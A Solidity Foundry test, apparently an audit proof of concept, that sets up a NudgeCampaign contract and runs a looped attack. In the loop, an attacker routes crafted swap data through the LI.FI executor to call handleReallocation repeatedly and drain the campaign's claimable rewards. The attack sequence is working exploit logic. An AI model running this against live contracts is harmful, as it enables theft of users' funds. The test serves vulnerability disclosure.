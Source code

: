 ```
    );
    campaign = NudgeCampaign(payable(campaignAddress));

    flashLoanAttackContract = new FlashLoanAttackContract(campaign);

    vm.deal(campaignAdmin, 10 ether);

    deal(address(WETH), campaignAdmin, 10_000_000e18);

    vm.prank(campaignAdmin);
    WETH.transfer(campaignAddress, INITIAL_FUNDING);
  }

  function deployCampaign(address DAI_, address WETH_, uint256 rewardPPQ_) internal returns (NudgeCampaign) {
    campaignAddress = factory.deployCampaign(
      holdingPeriodInSeconds, DAI_, WETH_, rewardPPQ_, campaignAdmin, 0, alternativeWithdrawalAddress, RANDOM_UUID
    );
    campaign = NudgeCampaign(payable(campaignAddress));

    return campaign;
  }

function test_attackReallocationTest() public {
    uint256 count;
      uint256 toAmount = 300_768e18;
    deal(address(DAI), attacker, toAmount);

    while (campaign.claimableRewardAmount() > 6000e18) {
      pIDsWithOne[0] = count + 1;
      bytes memory dataToCall = abi.encodeWithSelector(
        campaign.handleReallocation.selector, RANDOM_UUID, address(SWAP_CALLER), address(DAI), toAmount, ""
      );
      bytes32 transactionId = keccak256(abi.encode(DAI, block.timestamp, tx.origin));
      LibSwap.SwapData[] memory swapData = new LibSwap.SwapData[](1);
      swapData[0] =
        LibSwap.SwapData(address(campaign), address(campaign), address(DAI), address(DAI), toAmount, dataToCall, false);

      uint256 gasStart = gasleft();
      vm.startPrank(attacker);
      IERC20(DAI).approve(LIFI_EXECUTOR.erc20Proxy(), toAmount);

      LIFI_EXECUTOR.swapAndExecute(transactionId, swapData, address(DAI), payable(attacker), toAmount);
      vm.stopPrank();
      uint256 gasEnd = gasleft();
      if (count == 0) {
        console.log("Gas used per attack = ", gasStart - gasEnd);
      }

      vm.prank(operator);
      campaign.invalidateParticipations(pIDsWithOne);
      count++;
    }

    uint256 newClaimableReward = campaign.claimableRewardAmount();
    console.log("Final Claimable Reward:", newClaimableReward);
    console.log("Number of times attack ran", count);

  }
```